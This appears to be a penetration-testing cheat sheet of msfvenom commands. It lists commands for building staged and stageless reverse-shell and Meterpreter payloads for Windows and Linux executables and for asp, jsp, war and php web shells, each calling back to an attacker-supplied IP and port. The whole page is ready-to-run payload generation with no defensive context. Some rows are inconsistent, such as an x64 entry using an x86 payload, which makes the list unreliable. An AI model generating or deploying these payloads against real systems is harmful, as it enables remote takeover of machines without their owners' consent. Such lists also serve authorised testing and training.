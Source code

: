 ## Non-Meterpreter Binaries

Staged Payloads for Windows
※ x64とx86はどちらも試すこと

|     |                                                                                            |
| --- | ------------------------------------------------------------------------------------------ |
| x86 | `msfvenom -p windows/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exe`     |
| x64 | `msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x64.exe` |

Stageless Payloads for Windows

|     |                                                                                        |
| --- | -------------------------------------------------------------------------------------- |
| x86 | `msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exe` |
| x64 | `msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x64.exe` |

Staged Payloads for Linux

|     |                                                                                          |
| --- | ---------------------------------------------------------------------------------------- |
| x86 | `msfvenom -p linux/x86/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x86.elf` |
| x64 | `msfvenom -p linux/x64/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x64.elf` |

Stageless Payloads for Linux

|   |   |
|---|---|
|x86|`msfvenom -p linux/x86/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x86.elf`|
|x64|`msfvenom -p linux/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x64.elf`|

---

## Non-Meterpreter Web Payloads

|     |                                                                                     |
| --- | ----------------------------------------------------------------------------------- |
| asp | `msfvenom -p windows/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f asp > shell.asp`  |
| jsp | `msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.jsp` |
| war | `msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f war > shell.war` |
| php | `msfvenom -p php/reverse_php LHOST=<IP> LPORT=<PORT> -f raw > shell.php`            |

---

## Meterpreter Binaries

Staged Payloads for Windows

|     |                                                                                                  |
| --- | ------------------------------------------------------------------------------------------------ |
| x86 | `msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exe`     |
| x64 | `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x64.exe` |

Stageless Payloads for Windows

|     |                                                                                                  |
| --- | ------------------------------------------------------------------------------------------------ |
| x86 | `msfvenom -p windows/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exe`     |
| x64 | `msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x64.exe` |

Staged Payloads for Linux

|   |   |
|---|---|
|x86|`msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x86.elf`|
|x64|`msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x64.elf`|

Stageless Payloads for Linux

|   |   |
|---|---|
|x86|`msfvenom -p linux/x86/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x86.elf`|
|x64|`msfvenom -p linux/x64/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x64.elf`|

---

## Meterpreter Web Payloads

|   |   |
|---|---|
|asp|`msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f asp > shell.asp`|
|jsp|`msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > example.jsp`|
|war|`msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f war > example.war`|
|php|`msfvenom -p php/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.php`|
